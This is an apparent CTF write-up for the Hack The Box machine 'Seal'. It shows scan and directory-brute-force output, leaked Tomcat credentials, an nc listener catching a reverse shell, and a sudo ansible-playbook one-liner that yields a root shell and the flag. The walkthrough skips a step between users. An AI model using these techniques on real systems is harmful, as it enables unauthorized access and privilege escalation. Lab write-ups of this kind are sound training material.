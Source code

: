 # Seal

## Enumeration

#### Nmap

	# Nmap 7.91 scan initiated Wed Jul 14 18:25:26 2021 as: nmap -v -sC -sV -oN scan 10.129.183.174
	Increasing send delay for 10.129.183.174 from 0 to 5 due to 31 out of 101 dropped probes since last increase.
	Nmap scan report for 10.129.183.174
	Host is up (0.32s latency).
	Not shown: 997 closed ports
	PORT     STATE SERVICE    VERSION
	22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
	|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
	|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
	443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
	| http-methods: 
	|_  Supported Methods: OPTIONS GET HEAD POST
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Seal Market
	| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
	| Issuer: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
	| Public Key type: rsa
	| Public Key bits: 2048
	| Signature Algorithm: sha256WithRSAEncryption
	| Not valid before: 2021-05-05T10:24:03
	| Not valid after:  2022-05-05T10:24:03
	| MD5:   9c4f 991a bb97 192c df5a c513 057d 4d21
	|_SHA-1: 0de4 6873 0ab7 3f90 c317 0f7b 872f 155b 305e 54ef
	| tls-alpn: 
	|_  http/1.1
	| tls-nextprotoneg: 
	|_  http/1.1
	8080/tcp open  http-proxy
	| fingerprint-strings: 
	|   FourOhFourRequest: 
	|     HTTP/1.1 401 Unauthorized
	|     Date: Wed, 14 Jul 2021 12:58:54 GMT
	|     Set-Cookie: JSESSIONID=node016q2txdyyt12gbw7kslacd2xd2.node0; Path=/; HttpOnly
	|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
	|     Content-Type: text/html;charset=utf-8
	|     Content-Length: 0
	|   GetRequest: 
	|     HTTP/1.1 401 Unauthorized
	|     Date: Wed, 14 Jul 2021 12:58:51 GMT
	|     Set-Cookie: JSESSIONID=node01drdcpbxvdm3f121yjt90r3s3t0.node0; Path=/; HttpOnly
	|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
	|     Content-Type: text/html;charset=utf-8
	|     Content-Length: 0
	|   HTTPOptions: 
	|     HTTP/1.1 200 OK
	|     Date: Wed, 14 Jul 2021 12:58:52 GMT
	|     Set-Cookie: JSESSIONID=node0menw8751ecl0qf3pfh23ccd1.node0; Path=/; HttpOnly
	|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
	|     Content-Type: text/html;charset=utf-8
	|     Allow: GET,HEAD,POST,OPTIONS
	|     Content-Length: 0
	|   RPCCheck: 
	|     HTTP/1.1 400 Illegal character OTEXT=0x80
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 71
	|     Connection: close
	|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
	|   RTSPRequest: 
	|     HTTP/1.1 505 Unknown Version
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 58
	|     Connection: close
	|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
	|   Socks4: 
	|     HTTP/1.1 400 Illegal character CNTL=0x4
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 69
	|     Connection: close
	|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
	|   Socks5: 
	|     HTTP/1.1 400 Illegal character CNTL=0x5
	|     Content-Type: text/html;charset=iso-8859-1
	|     Content-Length: 69
	|     Connection: close
	|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
	| http-auth: 
	| HTTP/1.1 401 Unauthorized\x0D
	|_  Server returned status 401 but no WWW-Authenticate header.
	| http-methods: 
	|_  Supported Methods: GET HEAD POST OPTIONS
	|_http-title: Site doesn't have a title (text/html;charset=utf-8).
	1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at s



	Read data files from: /usr/bin/../share/nmap
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	# Nmap done at Wed Jul 14 18:26:44 2021 -- 1 IP address (1 host up) scanned in 78.67 seconds


On port 8080 we got tomcat credentials

	<user username="tomcat" password="42MrHBf*z8{Z%" roles="manager-gui,admin-gui"/>
		</tomcat-users>


#### Dirsearch

┌──(arundhanush㉿kali)-[~/CTF/HTB/Seal]
└─$ dirsearch -u https://seal.htb                                               
/home/arundhanush/.local/lib/python3.9/site-packages/requests/__init__.py:89: Re version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "

  _|. _ _  _  _  _ _|_    v0.4.1                                                
 (_||| _) (/_(_|| (_| )                                                         
                                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist

Output File: /home/arundhanush/.dirsearch/reports/seal.htb/_21-09-05_09-53-12.tx

Error Log: /home/arundhanush/.dirsearch/logs/errors-21-09-05_09-53-12.log

Target: https://seal.htb/
                                                                                
	[09:53:19] Starting: 
	[09:53:28] 302 -    0B  - /js  ->  http://seal.htb/js/
	[09:54:07] 400 -  804B  - /\..\..\..\..\..\..\..\..\..\etc\passwd      
	[09:54:10] 400 -  804B  - /a%5c.aspx                                      
	[09:54:14] 302 -    0B  - /admin  ->  http://seal.htb/admin/                   
	[09:54:44] 302 -    0B  - /css  ->  http://seal.htb/css/                       
	[09:54:55] 302 -    0B  - /host-manager/  ->  http://seal.htb/host-manager/html
	[09:54:55] 403 -  564B  - /host-manager/html
	[09:54:56] 302 -    0B  - /icon  ->  http://seal.htb/icon/                   
	[09:54:57] 302 -    0B  - /images  ->  http://seal.htb/images/                 
	[09:54:58] 200 -   19KB - /index.html                                    
	[09:55:05] 403 -  564B  - /manager/html/                                      
	[09:55:05] 403 -  564B  - /manager/html
	[09:55:05] 302 -    0B  - /manager/  ->  http://seal.htb/manager/html
	[09:55:05] 401 -    2KB - /manager/status/all          
	[09:55:06] 302 -    0B  - /manager  ->  http://seal.htb/manager/     
	                                                                            
	Task Completed      

In this dirsearch /manager/status/all is tomcat we would login with our crendentials


its tomcat/9.0.31 vulnerable to path traversal we have to upload a file  

┌──(arundhanush㉿kali)-[~/CTF/HTB/Seal]
└─$ nc -nlvp 1234                                                                                                                                               130 ⨯
Listening on 0.0.0.0 1234
Connection received on 10.10.10.250 42398
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@seal:/var/lib/tomcat9$    


## Privesc

	luis@seal:~$ sudo -l
	Matching Defaults entries for luis on seal:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User luis may run the following commands on seal:
	    (ALL) NOPASSWD: /usr/bin/ansible-playbook *
	luis@seal:~$ TF=$(mktemp)
	luis@seal:~$ echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
	luis@seal:~$ sudo ansible-playbook $TF
	[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'

	PLAY [localhost] *****************************************************************************************************************************************************

	TASK [Gathering Facts] ***********************************************************************************************************************************************
	ok: [localhost]

	TASK [shell] *********************************************************************************************************************************************************
	# id
	uid=0(root) gid=0(root) groups=0(root)
	# cd /root
	# cat root.txt  
	cee3055bda7cb9020601d6124a74d95e
	# 
